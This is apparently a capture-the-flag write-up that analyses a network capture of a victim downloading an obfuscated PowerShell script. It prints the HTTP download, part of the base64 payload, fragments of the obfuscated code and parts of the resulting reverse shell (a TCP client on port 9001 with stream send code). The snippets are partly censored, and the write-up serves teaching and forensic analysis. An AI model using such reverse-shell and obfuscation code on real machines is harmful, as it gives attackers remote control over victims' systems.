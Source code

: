 # Nishang

## Challenge Description

> Category: Beginner\
> Analyze the provided network capture to uncover what was downloaded to the victim’s machine.

In this challenge, we are given access to a pcap file and it is hinted that something was downloaded to a "victim's" machine. As a heads up, in this challenge there is an inclusion of a Powershell reverse shell which does get picked up by Windows Security. To keep Windows from complaining I've censored out significant portions of the snippet.

## Solution

Opening the capture file in Wireshark, we see it is relatively small with only 17 packets. Immediately, what stands out the most are 2 HTTP packets: a GET request and a 200 OK replying to that GET request. If we follow the HTTP Stream we get the following.

```
GET /udujreghjs.ps1 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.3803
Host: 192.168.75.130:8000
Connection: Keep-Alive


HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12
Date: Sat, 26 Jul 2025 10:23:38 GMT
Content-type: application/octet-stream
Content-Length: 4164
Last-Modified: Sat, 26 Jul 2025 10:18:20 GMT

KAAoACgAIgB7ADQANwB9AHsAOQAwAH0AewAxADYAfQB7ADkANAB9AHsAMwAwAH0AewA4ADQAfQB7ADUAMgB9AHsAMQAxADEAfQB7ADUAOAB9AHsANQA2AH0AewAzADMAfQB7ADEAMAA2AH0AewAxADAAMQB9AHsAMgAzAH0AewAxADEAfQB7ADcAMwB9AHsAOQAyAH0AewAxADQAfQB7ADgANgB9AHsANAA5AH0AewAxADEANQB9AHsAMQAxADMAfQB7ADgAMAB9AHsANwAwAH0AewAyADIAfQB7ADkAOAB9AHsANA...AGUAcABMAGEAQwBlACgAWwBDAGgAYQBSAF0ANAA5ACsAWwBDAGgAYQBSAF0ANQA3ACsAWwBDAGgAYQBSAF0AOAAyACkALABbAEMAaABhAFIAXQAzADkAIAAtAEMAcgBlAHAATABhAEMAZQAgACAAJwBuAHoAMAAnACwAWwBDAGgAYQBSAF0AMwA2ACkAfAAmACAAKAAoAGcAdgAgACcAKgBtAGQAUgAqACcAKQAuAG4AQQBtAEUAWwAzACwAMQAxACwAMgBdAC0AagBPAGkATgAnACcAKQA=
```

We see that the GET request is replyed with a payload of a bunch of random looking text. It's not hard to figure out that this is base64 encoding, which is very common in HTTP payloads, from the padding at the end and the characters used. We also get a bit of a hint from the GET request file path which is "udujreghjs.ps1". The ".ps1" file extension indicates that this is most likely a Powershell script. From here, we can decode it using a tool like Cyberchef. After doing so we get the output below. Also, I should point out the text is encoded using 16 bit characters, so you may have to change the settings in whatever tool you use to make it output correctly, or simply remove those erroneous NULL bytes.

```
((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}
...
'0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)|& ((gv '*mdR*').nAmE[3,11,2]-jOiN'')
```

Looking at this, we can identify that this is Powershell code, and that it is heavily obfuscated. If you try to run this command, you will get a bunch of errors most likely and Windows will swoop and complain about an attempted reverse shell. This isn't too suprising given the mention of a "victim" earlier. Still, we can sort of parse this command by looking at the parens that group it and see that the command is split into two parts:

```
((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}
...
nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)
```

Which gets piped with a '|&' into

```
((gv '*mdR*').nAmE[3,11,2]-jOiN'')
```

If we run just that first command, we get the flag in its output. The second piece is just a round about way of getting the string "iex" which is used to actually run the reverse shell.

```
$client = New-Object System.Net.Sockets.TCPClient('wwf{s0m3_p0w3r5h3ll_0bfusc4710n}',9001);
...
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Flag: `wwf{s0m3_p0w3r5h3ll_0bfusc4710n}`